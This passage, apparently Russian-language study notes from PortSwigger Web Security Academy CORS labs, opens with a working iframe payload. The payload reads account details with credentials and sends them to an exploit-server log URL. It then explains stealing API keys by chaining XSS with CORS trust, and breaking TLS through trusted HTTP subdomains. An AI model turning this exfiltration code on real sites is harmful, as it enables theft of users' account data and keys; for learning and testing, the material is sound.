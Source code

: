 Lab:

```html
<--! on exploit server -->
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0ae7005904c7d03fc1456867004f00ad.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='https://exploit-0a78002e0477d01dc16967e90144004a.exploit-server.net//log?key='+encodeURIComponent(this.responseText);
};
</script>"></iframe>
```

### Эксплуатация XSS через доверительные отношения CORS

Даже "правильно" настроенный CORS устанавливает доверительные отношения между двумя источниками. Если сайт доверяет источнику, который уязвим для межсайтового скриптинга (XSS), то злоумышленник может использовать XSS для внедрения JavaScript, который использует CORS для получения конфиденциальной информации с сайта, доверяющего уязвимому приложению.

Учитывая следующий запрос:

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

Если сервер отвечает:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Тогда злоумышленник, обнаруживший XSS-уязвимость на subdomain.vulnerable-website.com, может использовать ее для получения API-ключа, используя URL-адрес вида:

```html
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

### Нарушение TLS при мисконфиге CORS

Предположим, что приложение, строго использующее HTTPS, также вносит в белый список доверенный поддомен, использующий обычный HTTP. Например, когда приложение получает следующий запрос:

```http
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```
